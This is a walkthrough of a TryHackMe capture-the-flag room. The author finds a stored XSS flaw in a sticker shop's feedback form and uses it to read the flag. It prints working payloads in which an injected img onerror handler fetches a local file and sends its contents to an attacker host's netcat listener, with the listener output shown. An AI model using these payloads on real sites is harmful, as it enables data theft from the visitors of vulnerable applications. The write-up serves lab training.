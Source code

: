 This is a TryHackMe CTF room. 
"Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!"

## Enumeration 
started VM with the IP `http://10.10.27.75:8080`. the goal is to get the flag at `http://TARGET_IP:8080/flag.txt`
Started GoBuster using the medium dir list.
```
gobuster dir -u http://10.10.27.75:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.27.75:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/view_feedback        (Status: 401) [Size: 25]
Progress: 220560 / 220561 (100.00%)
```
then scanned all ports on the target machine.
```
sudo nmap -sS -sV -T5 -vv 10.10.27.75 -allports

PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http-proxy syn-ack ttl 61 Werkzeug/3.0.1 Python/3.8.10
```
I then cURL'd the target to review the code and found a submit feedback link.
```
<header>
        <ul>
            <li><a href="/">Home</a></li>
            <li><a href="/submit_feedback">Feedback</a></li>
        </ul>
    </header>
```
Further investigating reveals that the submit uses a POST method; potential entry point. I tried to go straight to the flag.txt and get a "401 Unauthorized"

Going straight to /submit_feedback shows:
![screenshot][Pasted image 20241229221603.png]
So this shows me that I can potentially exploit the text input.

## Exploring potentials
so there are a couple train of thoughts I considered looking for using BurpSuite and DevTools.
* session cookies
* weird headers
* hidden directories

There are no session cookies or weird headers that stick out to me. However I did discover a /view_feedback directory.  This turned out to be behind a 401 unauthorized response, I don't feel this is relevant.

I tried to validate XSS by submitting a basic script tag to alert XSS. This did not prove to work and sent me down a couple other methods of exploitation that were not promising. I used python to create a couple scripts to group and automate some of these tasks, including:
* Cross-Site Request Forgery (CSRF)
* Insecure Direct Object References (IDOR)
* Local File Inclusion (LFI) or Remote File Inclusion (RFI)
* Reflective File Access
None of these seemed to bare fruit and I started to feel XSS was the answer and started researching potential payloads since the delivery method has to be the text input.

# XSS Exploitation
I determined that XSS had to be the exploit to get the flag, but how? I researched some payloads, I kept getting some basic ones that did not work, I didn't find them though I am sure they exist and I admit I didn't look to hard. I found a write-up on this specific box with the answer obfuscated and skimmed it. 

I would have never got this without help. the payload seems more complicated than I would have been able to write or even find. So the test payload looks like this:

```
<img src=x onerror="fetch('http://ATTACKER_IP:PORT')"/>
```

The payload works as a basic XSS attack. what happens is:
* `<img/>` tag is inserted with the source of x(`src="x"`). Because the source is invalid you need an `onerror` event
* `"fetch()"`: is used to call API's I believe. in this case we are going to insert our attacking ip(`'http://ATTACKER_IP:PORT'`) 
* `PORT`: the port you assign in a netcat listener

This needs to be submitted in the text input once you have a netcat listener setup on a specified port, I used:

```
nc -knvlp 8000
listening on [any] 8000 ...
```

Once listening you can submit the above payload. it will take a second or two to receive a response:

```
nc -knvlp 8000
listening on [any] 8000 ...
connect to [THM_VPN_IP] from (UNKNOWN) [10.10.27.75] 56902
GET / HTTP/1.1
Host: THM_VPN_IP:8000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

This proves XSS can be achieved. the payload to now get the flag is:

```
<img src="x" onerror="fetch('http://127.0.0.1:8080/flag.txt').then(r => r.text()).then(r => fetch('http://ATTACKER_IP:PORT/?c=' + r)).catch(e => fetch('http://ATTACKER_IP:PORT/?c=' + e))"/>
```

Okay so lets break this down before submitting, first I had to initiate another listener before submitting. This payload can be parsed as such:
* `"fetch('127.0.0.1:8080/flag.txt')`: This makes a request to the local server of the Target_Machine and 127.0.0.1 is the loopback address. If the flag is stored in a file, this attempts to retrieve its contents.
* `.then(r => r.text())`: If the content in the flag is fetched, the `.text()` method extracts the contents as text.
* `.then(r => fetch('http://ATTACKER_IP:PORT/?c=' + r))`: This section sends the contents to your listener by appending the contents of the flag as a query parameter (`?c=<flag content>`).
* `.catch(e => fetch('http://ATTACKER_IP:PORT/?c=' + e))"`: This catches any errors if for any reason the request to the flag fails. `catch` sends any errors to the attacker, using the (`?c=<error message>`) again.

So with your listener back up and running, submit the final payload. You should see:

```
nc -knvlp 8000
listening on [any] 8000 ...
connect to [THM_VPN_IP] from (UNKNOWN) [10.10.27.75] 45532
GET /?c=THM{█████████████████████████████████████████} HTTP/1.1
Host: THM_VPN_IP:8000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gec HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

# Summary

* XSS was the vector of exploitation due to the application allowing a user to inject and execute arbitrary JavaScript in the browser.
* I leveraged JavaScript's `fetch()` method to access the flag located on the victims local server and exfil the contents.
* The payload executed successfully due to the lack of input sanitization or proper output encoding by the application, if these measures were in place this would not be an attack vector.

# Conclusion
I did not write or create the payload but after further research I can see how it was put together. Huge shoutout to Jay Bhatt's medium post that provided the payload and a much more concise walkthrough of The Sticker Store box on THM. I personally thought I could exploit a different way and narrowed down to XSS. I worked through my own process till I hit a wall and sought assistance.

Tools used:
* GoBuster
* Nmap
* Burpsuite
* cURL
* NetCat
* Python3
